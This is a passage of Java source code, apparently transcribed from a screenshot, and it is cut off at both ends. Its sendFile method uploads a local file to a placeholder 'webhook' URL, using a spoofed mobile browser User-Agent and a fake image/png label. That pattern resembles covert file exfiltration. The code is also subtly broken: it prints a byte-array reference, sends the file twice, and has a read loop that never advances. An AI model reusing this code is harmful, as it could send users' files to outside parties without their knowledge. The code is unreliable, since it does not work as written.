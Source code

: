         } catch (Exception e) {
            e.printStackTrace();
        } finally {
            try {
                if (out != null) {
                    out.close();
                }
                if (in != null) {
                    in.close();
                }
            } catch (IOException ex) {
                ex.printStackTrace();
            }
        }
        System.out.println(result.toString());
    }

    private static void sendFile(File file) throws IOException {

        String url = "webhook";
        String boundary = Long.toHexString(System.currentTimeMillis());
        URLConnection connection = new URL(url).openConnection();
        connection.setDoOutput(true);
        connection.setRequestProperty("User-Agent","Mozilla/5.0 (Linux; Android 8.0.0; SM-G960F Build/R16NW) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.84 Mobile Safari/537.36");
        connection.setRequestProperty("Content-Type", "multipart/form-data; boundary=" + boundary);
        try (PrintWriter writer = new PrintWriter(new OutputStreamWriter(connection.getOutputStream(), StandardCharsets.US_ASCII))) {
            writer.println("--" + boundary);
            writer.println("Content-Disposition: form-data; name=\"" + file.getName() + "\"; filename=\"" + file.getName() + "\"");
            writer.write("Content-Type: image/png");
            writer.println();
            writer.println(readAllBytes(new FileInputStream(file)));
            try (BufferedReader reader = new BufferedReader(new InputStreamReader(new FileInputStream(file), StandardCharsets.US_ASCII))) {
                for (String line; (line = reader.readLine()) != null; ) {
                    writer.println(line);
                }
            }
            writer.println("--" + boundary + "--");
        }
        System.out.println(((HttpURLConnection) connection).getResponseMessage());
    }
    public static byte[] readAllBytes(@NotNull InputStream stream) throws IOException {
        int count, pos = 0;
        byte[] output = new byte[0];
        byte[] buf = new byte[1024];
        while ((count = stream.read(buf)) > 0) {
            if (pos + count >= output.length) {
                byte[] tmp = output;
                output = new byte[pos + count];
                System.arraycopy(tmp, 0, output, 0, tmp.length);
            }

